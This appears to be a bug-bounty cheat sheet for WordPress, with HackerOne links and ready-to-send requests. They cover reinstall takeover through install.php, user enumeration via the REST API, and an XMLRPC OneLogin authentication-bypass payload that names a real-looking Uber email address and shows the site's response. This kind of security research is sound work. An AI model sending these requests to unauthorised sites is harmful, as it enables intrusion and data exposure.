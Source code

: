 # Bugs to check on wordpress
- Data Exposure
- xmlrpc.php Enabled
- Using Wpscan

## Data exposure reports
https://hackerone.com/reports/356047
https://hackerone.com/reports/540301 
https://hackerone.com/reports/384782

### XMLRPC Enabled 
https://hackerone.com/reports/356047 
https://hackerone.com/reports/540301 
https://hackerone.com/reports/384782

# Not Securing wp-config.php WordPress Configuration File
# Takeover Wordpress If Not Installed
```bash
https://example.com/wp-admin/install.php
```
- If you can install wordpress again RCE boom

## Findings
- It Discloses Author And Admin Information
```bash
example.com/wp-json/wp/v2/users/
$ curl https://example.com/\?_method\=GET -d rest_route=/wp/v2/users
```
## OneLogin authentication bypass on WordPress sites via XMLRPC
- Request
```bash
POST /xmlrpc.php
Host: ex.com

<?xml version="1.0"?>
<methodCall>
<methodName>wp.getOptions</methodName>
<params>
	<param><value>zzz</value></param>
        <param><value>cbarry@uber.com</value></param>
        <param><value>@@@nopass@@@</value></param>
</params>
</methodCall>
```
- response
```bash
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <struct>
  <member><name>software_name</name><value><struct>
  <member><name>desc</name><value><string>Software Name</string></value></member>
  <member><name>readonly</name><value><boolean>1</boolean></value></member>
  <member><name>value</name><value><string>WordPress</string></value></member>
</struct></value></member>
  <member><name>software_version</name><value><struct>
  <member><name>desc</name><value><string>Software Version</string></value></member>
  <member><name>readonly</name><value><boolean>1</boolean></value></member>
  <member><name>value</name><value><string>4.4.3</string></value></member>
</struct></value></member>
  <member><name>blog_url</name><value><struct>
  <member><name>desc</name><value><string>WordPress Address (URL)</string></value></member>
  <member><name>readonly</name><value><boolean>1</boolean></value></member>
  <member><name>value</name><value><string>https://newsroom.uber.com</string></value></member>
...etc.
```
##### Exploit scenarios [Check Report](https://hackerone.com/reports/138869)

##### Important Reports To Look AT
```bash
Link: https://hackerone.com/reports/436928
Link: https://hackerone.com/reports/187520
Link: https://hackerone.com/reports/460911
Link: https://hackerone.com/reports/509930
Link: https://hackerone.com/reports/487081
Link: https://hackerone.com/reports/659419
Link: https://hackerone.com/reports/222040
Link: https://hackerone.com/reports/490782
Link: https://hackerone.com/reports/183568
Link: https://hackerone.com/reports/204513
Link: https://hackerone.com/reports/203515
Link: https://hackerone.com/reports/220903
Link: https://hackerone.com/reports/270060
Link: https://hackerone.com/reports/339483
Link: https://hackerone.com/reports/230234
Link: https://hackerone.com/reports/250837
Link: https://hackerone.com/reports/282176
Link: https://hackerone.com/reports/277502
Link: https://hackerone.com/reports/230232
Link: https://hackerone.com/reports/263109
Link: https://hackerone.com/reports/230435
Link: https://hackerone.com/reports/495515
Link: https://hackerone.com/reports/538008
Link: https://hackerone.com/reports/153093
Link: https://hackerone.com/reports/837018
```
